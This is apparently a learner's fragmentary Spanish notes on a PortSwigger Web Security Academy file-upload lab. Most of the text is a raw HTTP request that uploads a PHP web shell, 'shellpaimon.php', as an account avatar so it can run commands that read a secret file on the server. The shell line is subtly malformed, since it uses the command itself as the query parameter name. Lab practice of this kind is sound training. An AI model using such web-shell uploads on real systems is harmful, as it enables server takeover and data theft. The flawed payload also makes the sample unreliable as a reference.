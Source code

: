 ```python
------WebKitFormBoundaryFgCEckaUWLxdV2Oz--





 EN LA WEB ESTA EXTESION DE ARCHIVO MOSTRO ESTO:
 
 
 The file avatars/index.xml has been uploaded.
� Back to My Account





PROBAMOS ENVIAR CON REPITER UN SCRIPT DE UN SHELL POR POST:




POST /my-account/avatar HTTP/2
Host: 0aab0075047886d0810e5c5600eb0033.web-security-academy.net
Cookie: session=pVpKMVMQHqU2KXRVSYzl19ckNErGsrDq
Content-Length: 440
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0aab0075047886d0810e5c5600eb0033.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLWJjSqOd0tA05tAV
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aab0075047886d0810e5c5600eb0033.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9,en;q=0.8

------WebKitFormBoundaryLWJjSqOd0tA05tAV
Content-Disposition: form-data; name="avatar"; filename="shellpaimon.php"
Content-Type: application/x-php

<?php echo system($_GET['cat /home/carlos/secret']); ?>

------WebKitFormBoundaryLWJjSqOd0tA05tAV
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryLWJjSqOd0tA05tAV
Content-Disposition: form-data; name="csrf"

43eyQFOMNKc8GJLNo78dODVaH0IURIEC
------WebKitFormBoundaryLWJjSqOd0tA05tAV--




```